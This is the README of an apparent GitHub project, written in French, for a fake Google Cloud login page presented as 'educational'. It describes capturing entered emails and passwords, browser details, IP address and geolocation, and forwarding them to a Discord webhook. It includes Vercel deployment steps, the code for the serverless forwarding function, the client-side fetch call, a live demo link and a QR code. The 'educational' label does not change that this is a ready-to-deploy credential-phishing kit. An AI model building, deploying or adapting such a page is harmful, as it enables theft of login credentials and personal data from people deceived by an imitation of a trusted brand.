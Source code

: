 # 🌐 GCloud Connexion – Démo Éducative

Ce projet est une **fausse page de connexion GCloud** à but **strictement pédagogique**. Il sert à montrer comment collecter certaines données côté client (navigateur, IP, géo) et les envoyer à un webhook Discord.

> ⚠️ Ce projet ne fait aucune vraie authentification. Il est à **usage éducatif uniquement**.

---

## ✨ Fonctionnalités

- Interface UI inspirée de Google
- Collecte côté client :
  - Email et mot de passe (fictifs)
  - Infos navigateur (agent, langue, fuseau, résolution…)
  - IP et géolocalisation approximative via [ipapi.co](https://ipapi.co/json)
- Envoi des données dans un **webhook Discord** sécurisé via variable d’environnement
- Déploiement automatique avec [Vercel](https://vercel.com)

---

## 🛠️ Tech Stack

- HTML / CSS / JS pur
- API Web natives (`fetch`, `navigator`, etc.)
- [ipapi.co](https://ipapi.co/json) pour l’IP et géolocalisation
- Hébergement via [Vercel](https://vercel.com)

---

## 🚀 Déploiement (Vercel)

### 1. Cloner le repo

```bash
git clone https://github.com/PariaHRZ/gcloud-login
cd gcloud-login
```

### 2. Déployer avec Vercel

1. Va sur [vercel.com](https://vercel.com)
2. Connecte ton compte GitHub
3. Clique sur **"Add New → Project"**
4. Sélectionne le repo
5. Va dans l’onglet **Environment Variables** et ajoute :

| Nom de la variable      | Valeur (exemple)                        |
|-------------------------|-----------------------------------------|
| `DISCORD_WEBHOOK_URL`   | `https://discord.com/api/webhooks/...` |

6. Lance le déploiement ✅

Ton site sera accessible à une URL comme :
```
https://ton-projet.vercel.app
```

---

## 📦 Lancer en local

```bash
git clone https://github.com/PariaHRZ/gcloud-login
cd gcloud-login
open index.html  # ou double-clique dessus
```

⚠️ En local, le webhook Discord **ne fonctionnera pas** sans backend intermédiaire.

---

## 🔒 Sécurité du webhook

Le webhook Discord est **stocké dans une variable d’environnement** (`DISCORD_WEBHOOK_URL`) sur Vercel, et **jamais exposé dans le code HTML/JS**.

L’envoi se fait vers une API Vercel (serverless function) sécurisée.

---

## 📁 Exemple d’API (à mettre dans `/api/webhook.js`)

```js
export default async function handler(req, res) {
  const webhook = process.env.DISCORD_WEBHOOK_URL;
  if (!webhook) return res.status(500).send("Webhook manquant");

  await fetch(webhook, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(req.body),
  });

  res.status(200).send("OK");
}
```

Et côté client dans ton JS :

```js
fetch("/api/webhook", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ content: message })
});
```

---

## 📄 Licence

[MIT – libre d’adaptation à des fins pédagogiques.](https://github.com/PariaHRZ/gcloud-login/blob/main/LICENSE)

---

## 🔗 Démo

🔗 [https://gcloud-login-git-main-pariahrzs-projects.vercel.app/](https://gcloud-login-git-main-pariahrzs-projects.vercel.app/)

OU

![qr_code_simple](https://github.com/user-attachments/assets/632e655f-7d6c-43ad-b329-03e0f32c0be0)

